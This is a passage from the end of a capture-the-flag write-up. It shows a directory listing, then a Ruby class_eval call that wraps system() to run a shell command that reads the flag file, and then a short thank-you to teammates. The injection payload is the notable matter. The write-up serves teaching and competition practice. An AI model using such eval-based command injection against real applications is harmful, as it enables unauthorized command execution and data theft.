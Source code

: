 ```
opt
proc
root
run
sbin
srv
state.json
sys
tmp
usr
var
true

> class_eval('system("cat flag_here_f75047c21a96c2e487XXXXXXXXX")')
FLAG-0b8eca2374fXXXXXXXXXXX
true
```

## Conclusion

Submitting this, we got 6 points for our team. This was a really fun challenge and I learned a lot. Thanks again to @becojo, my teammate Saba, and
the whole IDK CTF team.

